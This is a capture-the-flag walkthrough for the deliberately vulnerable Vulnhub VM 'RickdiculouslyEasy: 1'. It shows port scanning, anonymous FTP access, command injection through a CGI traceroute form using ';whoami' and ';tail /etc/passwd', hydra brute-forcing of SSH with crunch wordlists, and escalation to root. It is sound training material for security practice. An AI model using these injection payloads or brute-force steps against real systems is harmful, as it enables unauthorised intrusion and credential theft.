



## Goal
Capture all "flags" worth 130 points and gain root access to machine.

:::note[Vulnhub Source:] 
[RickdiculouslyEasy: 1](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/)
:::

## Locate IP Address of the Machine
To do this I am going to find the IP of my own Kali instance to see what subnet I am on.

```bash {4}
┌──(mac㉿kali)-[~]
└─$ ifconfig -a
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.4  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::a00:27ff:fe79:6078  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:79:60:78  txqueuelen 1000  (Ethernet)
        RX packets 164  bytes 59291 (57.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 221  bytes 26635 (26.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Based on this we now know that our IP address is **10.0.2.4** and we are on subnet **10.0.2.0/24**.

Now we can run `sudo netdiscover -r 10.0.2.0/24` to find the IP of the machine we are attacking.

```bash {13}
mac㉿kali)-[~]
└─$ sudo netdiscover -r 10.0.2.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 4 hosts. Total size: 240                                                                                                
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                                                               
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                                                               
 10.0.2.3        08:00:27:9a:7d:a9      1      60  PCS Systemtechnik GmbH                                                                                       
 10.0.2.15       08:00:27:bf:52:95      1      60  PCS Systemtechnik GmbH
 ```

 We can now assume that the IPv4 of the machine we are attacking is **10.0.2.15**.

## Enumeration
Now we will run the nmapAutomator script to perform a scan of this machine to see what ports are open and what exploits this machine is vulnerable to.

```bash
┌──(mac㉿kali)-[~/Desktop/nmapAutomator]
└─$ ./nmapAutomator.sh -H 10.0.2.15 -t All
```

A quick scan is performed first and we immediately know that ports 21, 22, 80, and 9090 are open.

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
9090/tcp  open  zeus-admin
13337/tcp open  unknown
22222/tcp open  easyengine
60000/tcp open  unknown
```
Now we will run **netcat** on all the open ports to see what kind of response we get from each port, if any.

```bash {17, 29}
┌──(mac㉿kali)-[~]
└─$ nc 10.0.2.15 21   
220 (vsFTPd 3.0.3)

┌──(mac㉿kali)-[~]
└─$ nc 10.0.2.15 22   
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)

┌──(mac㉿kali)-[~]
└─$ nc 10.0.2.15 80

┌──(mac㉿kali)-[~]
└─$ nc 10.0.2.15 9090

┌──(mac㉿kali)-[~]
└─$ nc 10.0.2.15 13337
FLAG:{TheyFoundMyBackDoorMorty} -10 Points

┌──(mac㉿kali)-[~]
└─$ nc 10.0.2.15 22222
SSH-2.0-OpenSSH_7.5

┌──(mac㉿kali)-[~]
└─$ nc 10.0.2.15 60000
Welcome to Ricks half baked reverse shell...
# ls
FLAG.txt
# cat FLAG.txt
FLAG{Flip the pickle Morty!} -10 Points
```

While running netcat on all open ports we found an FTP daemon running, Ubuntu 14.04.5 LTS, a backdoor worth ✅ **10 points**, SSH running on port 22222, and a reverse shell running on port 60000.

While in the reverse shell I ran the `ls` command to see if any files could be located and there was a file titled **FLAG.txt** found.

I then ran `cat FLAG.txt` to read the contents of that file and found a flag worth ✅ **10 points**.

## Checking ports 80 and 9090

The two ports that refused connections via netcat (80 and 9090) are most likely web services. So lets check out both of those ports in a web browser.


If we inspect the page source nothing of note can be found.

```html
<!DOCTYPE html>
<html>
<head>
<title>Morty's Website</title>
<center><font size="20" color="yellow"><b>MORTY'S COOL WEBSITE</b></font></center>
<center><font size = "5" color="yellow">It's not finished yet ok. Stop judging me.</font></center>
<style>
body 
{
    background-image: url("morty.png");
}
</style>
</head>
</html>
```

Now lets check port 9090 and see what we find.



:::tip
✅ **10 points!**
:::

And the page source gave us no useful information.

## Checking robots.txt

Entering `10.0.2.15/robots.txt` into the address bar can show us if the website owner is trying to hide any pages from web scrapers and search engines for privacy purposes.

```
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

Both `/cgi-bin/root_shell.cgi` and `/cgi-bin/` gave us nothing, but `/cgi-bin/tracertool.cgi` brings us to a webpage with some text and a text-field input with a button that says "Trace!"



Entering an IP address returns the route being traced by the console on the other end of this webpage. Here is an example:

```bash
traceroute to 1.1.1.1 (1.1.1.1), 30 hops max, 60 byte packets
 1  gateway (10.0.2.1)  0.093 ms  0.085 ms  0.060 ms
```

Running other commands such as `ls` does not work as the page only allows `traceroute` commands through.

But maybe we can trick the console by running multiple commands at once. We can accomplish this by separating commands with a semicolon. Lets test it out by inputting `;whoami`.

On the webpage we get `apache` returned.

Knowing we can send other commands now, and knowing that the **apache** user is limited, lets try and find what other users are on this machine.

```bash
;tail /etc/passwd
```
```
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

We can see that the user accounts on this machine are `RickSanchez`, `Morty`, `Summer`, and `apache`.

## Analyzing Nmap Scan

Lets take a look at the nmap scan again and see what other information we can gather from the open ports on this machine.

We know that port 21 is open and running vsftpd 3.0.3, but it looks like nmap has found out that Anonymous FTP login is currently being allowed on that port as well.

```bash
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
```

Now lets try and connect to that port via FTP and login anonymously (the password is blank for anonymous ftp users).

```bash
┌──(mac㉿kali)-[~/Desktop/nmapAutomator]
└─$ ftp 10.0.2.15
Connected to 10.0.2.15.
220 (vsFTPd 3.0.3)
Name (10.0.2.15:mac): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

It worked! Now we can run `ls -lah` to see what files/directories we can find.

Then we can use `get FLAG.txt -` to get the terminal to print the contents of the text file.

```bash {13}
ftp> ls -lah
229 Entering Extended Passive Mode (|||32767|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        0              33 Aug 22  2017 .
drwxr-xr-x    3 0        0              33 Aug 22  2017 ..
-rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
226 Directory send OK.
ftp> get FLAG.txt -
remote: FLAG.txt
229 Entering Extended Passive Mode (|||47137|)
150 Opening BINARY mode data connection for FLAG.txt (42 bytes).
FLAG{Whoa this is unexpected} - 10 Points
226 Transfer complete.
42 bytes received in 00:00 (203.04 KiB/s)
```

✅ **10 points!**

## Analyzing nikto Scan

Lets go back to the nmapAutomator scan and see what nikto found on the web services running on the victim machine.

If we read carefully we can see that a `/passwords/` directory was found on the apache service.

```bash
Starting nikto scan
                                                                                                                                                                  
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.0.2.15
+ Target Hostname:    10.0.2.15
+ Target Port:        80
+ Start Time:         2024-08-21 14:16:43 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.27 (Fedora)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.27 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE .
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /passwords/: Directory indexing found.
+ /passwords/: This might be interesting.
+ /icons/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8908 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2024-08-21 14:17:06 (GMT-4) (23 seconds)
```

Lets check see if that `/passwords/` directory can give us anything.



✅ **10 points!**

And a webpage titled `passwords.html`.

The webpage does not give us anything useful, but if we inspect the page source we can see that a password of `winter` can be seen.

```html {6}
<!DOCTYPE html>
<html>
<head>
<title>Morty's Website</title>
<body>Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.</body>
<!--Password: winter-->
</head>
</html>
```

## Using ssh to try to login as another user

Now that we know some usernames and a password of `winter`, lets try and find out which user that password belongs to.

```bash
┌──(mac㉿kali)-[~]
└─$ ssh RickSanchez@10.0.2.15 -p 22222
RickSanchez@10.0.2.15's password: 
Permission denied, please try again.
RickSanchez@10.0.2.15's password: 

┌──(mac㉿kali)-[~]
└─$ ssh Morty@10.0.2.15 -p 22222
Morty@10.0.2.15's password: 
Permission denied, please try again.
Morty@10.0.2.15's password:

┌──(mac㉿kali)-[~]
└─$ ssh Summer@10.0.2.15 -p 22222
Summer@10.0.2.15's password: 
Last login: Wed Aug 23 19:20:29 2017 from 192.168.56.104
[Summer@localhost ~]$
```

Ok, so the password `winter` is for the user account `Summer`.

Now lets run `ls` to see what files/directories are listed under Summer's user account.

```bash
[Summer@localhost ~]$ ls
FLAG.txt
```

We found a flag! Now lets run `more FLAG.txt` to view the contents of this text file.

```sh {2}
[Summer@localhost ~]$ more FLAG.txt
FLAG{Get off the high road Summer!} - 10 Points
```

✅ **10 points!**

## Checking Morty's Directory

Now lets see if we can change directories and find anything else.

```bash
[Summer@localhost home]$ tree /home
/home
├── Morty
│   ├── Safe_Password.jpg
│   └── journal.txt.zip
├── RickSanchez
│   ├── RICKS_SAFE
│   │   └── safe
│   └── ThisDoesntContainAnyFlags
│       └── NotAFlag.txt
└── Summer
    └── FLAG.txt
```

Going from the top down, lets inspect the Morty directory, followed by RickSanchez.

First, lets use secure copy to download and view both `Safe_Password.jpg` and `journal.txt.zip`.

```sh
[Summer@localhost Morty]$ scp Safe_Password.jpg mac@10.0.2.4:/home/mac/Desktop
mac@10.0.2.4's password: 
Safe_Password.jpg                                100%   42KB  46.2MB/s   00:00
[Summer@localhost Morty]$ scp journal.txt.zip  mac@10.0.2.4:/home/mac/Desktop
mac@10.0.2.4's password: 
journal.txt.zip                                  100%  414    97.2KB/s   00:00
```

Now on our own desktop we can view both files. Lets take a look at the image first.


Nothing to see here... but if we use the `strings` command to inspect the metadata of the image file we can see the following:

```text {5}
┌──(mac㉿kali)-[~/Desktop]
└─$ strings Safe_Password.jpg      
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
8BIM
8BIM
$3br
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
        #3R
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
0D000D\DDDD\t\\\\\t
```

So now we know that the password to the `journal.txt.zip` file is `Meeseek`.

Now lets unzip the `journal.txt.zip` file.

```bash
──(mac㉿kali)-[~/Desktop]
└─$ unzip journal.txt.zip 
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
  inflating: journal.txt  
```

Now lets view the text file and see what we find.

```bash {7}
┌──(mac㉿kali)-[~/Desktop]
└─$ cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 
```

✅ **20 points!**

## Checking Rick's Directory

Ok now we will change directories and look at the contents of `RickSanchez` based on the tree below.

```
├── RickSanchez
│   ├── RICKS_SAFE
│   │   └── safe
│   └── ThisDoesntContainAnyFlags
│       └── NotAFlag.txt
```

First lets `cd` into RICKS_SAFE and then secure copy the `safe` file onto our machine for inspection.

```bash
[Summer@localhost home]$ cd RickSanchez/
[Summer@localhost RickSanchez]$ cd RICKS_SAFE/
[Summer@localhost RICKS_SAFE]$ scp safe mac@10.0.2.4:/home/mac/Desktop
mac@10.0.2.4's password: 
safe                                            100% 8704     2.4MB/s   00:00 
```

Now we can inspect the `safe` file on our own desktop and it looks like it is an executable file. Lets run the `strings` command on it first to inspect it.

```
┌──(mac㉿kali)-[~/Desktop]
└─$ strings safe                   
/lib64/ld-linux-x86-64.so.2
.hK}m
libmcrypt.so.4
__gmon_start__
mdecrypt_generic
mcrypt_generic_deinit
mcrypt_module_close
mcrypt_generic_init
mcrypt_enc_get_block_size
mcrypt_module_open
libc.so.6
exit
puts
putchar
printf
__libc_start_main
GLIBC_2.2.5
%z       
AWAVI
AUATL
[]A\A]A^A_
rijndael-128
%d, 
Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!
AAAAAAAAAAAAAAAA
decrypt: %304s
g       py?
;*3$"
GCC: (GNU) 7.1.1 20170622 (Red Hat 7.1.1-3)
crtstuff.c
```

So here we can see that within the file it states "Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE".

So lets just try and run the file in our command line and see what happens.

```bash
┌──(mac㉿kali)-[~/Desktop]
└─$ ./safe
Past Rick to present Rick, tell future Rick to use GOD DAMN COMMAND LINE AAAAAHHAHAGGGGRRGUMENTS!
```

That didn't work... What if we try and use the 6 digit code that we found in the 20 point flag from earlier? 
`FLAG: {131333} - 20 Points`

```text {3,10,11,12}
┌──(mac㉿kali)-[~/Desktop]
└─$ ./safe 131333
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.
```

✅ **20 points!**

## Gaining root access

Now lets analyze the hint left behind. The password hinted at here will contain 1 uppercase character, 1 digit, and one of the words in Rick's old bands name which is "The Flesh Curtains".

Now since Summer is the only user account we currently have access to on this machine and she is just a regular user, we cannot access the `/root` directory.

```bash
[Summer@localhost home]$ cd /root
-bash: cd: /root: Permission denied
```

So maybe if we can figure out the password to the `RickSanchez` user account we will have elevated privileges.

We can use the [crunch](https://www.kali.org/tools/crunch/) tool to create a wordlist based on the parameters that we have listed above.

Based on the documentation from [crunch](https://www.kali.org/tools/crunch/) we can use the following command to create a wordlist for possible passwords containing the word `Flesh` or the word `Curtains`.

The `,` indicates an uppercase letter and `%` indicates a digit.

```bash {2,11}
┌──(mac㉿kali)-[~/Desktop]
└─$ crunch 7 7 -t ,%Flesh > flesh.wordlist
Crunch will now generate the following amount of data: 2080 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 260 
                                                                                                                                                                  
┌──(mac㉿kali)-[~/Desktop]
└─$ crunch 10 10 -t ,%Curtains > curtains.wordlist
Crunch will now generate the following amount of data: 2860 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 260 
```

Now we can use the [hydra](https://www.kali.org/tools/hydra/) tool to try and brute force the `RickSanchez` account using the wordlists we just created.

First we will try spraying passwords using the `curtains.wordlist` file we created:

```bash {9}
┌──(mac㉿kali)-[~/Desktop]
└─$ hydra -l RickSanchez -P curtains.wordlist ssh://10.0.2.15 -s 22222
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-22 11:04:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 260 login tries (l:1/p:260), ~17 tries per task
[DATA] attacking ssh://10.0.2.15:22222/
[22222][ssh] host: 10.0.2.15   login: RickSanchez   password: P7Curtains
[STATUS] 260.00 tries/min, 260 tries in 00:01h, 1 to do in 00:01h, 6 active
1 of 1 target successfully completed, 1 valid password found
```

And here we go! Hydra found that the password to the `RickSanchez` account is: `P7Curtains`.

Now lets login as RickSanchez via ssh using that password. And attempt to gain root access to this machine.

```bash {13}
┌──(mac㉿kali)-[~]
└─$ ssh RickSanchez@10.0.2.15 -p 22222
RickSanchez@10.0.2.15's password: 
Last login: Fri Aug 23 01:11:40 2024 from 10.0.2.4
[RickSanchez@localhost ~]$ cd ../../
[RickSanchez@localhost /]$ ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
[RickSanchez@localhost /]$ sudo -i
[sudo] password for RickSanchez: 
[root@localhost ~]# ls
FLAG.txt  anaconda-ks.cfg
[root@localhost ~]# more FLAG.txt 
FLAG: {Ionic Defibrillator} - 30 points
[root@localhost ~]#
```

✅ **30 points!**

## Tools Used:
- [netdiscover](https://www.kali.org/tools/netdiscover/)
- [nmap](https://www.kali.org/tools/nmap/)
- [nmapAutomator](https://github.com/21y4d/nmapAutomator)
- [netcat](https://www.kali.org/tools/netcat/)
- [nikto](https://www.kali.org/tools/nikto/)
- [crunch](https://www.kali.org/tools/crunch/)
- [hydra](https://www.kali.org/tools/hydra/)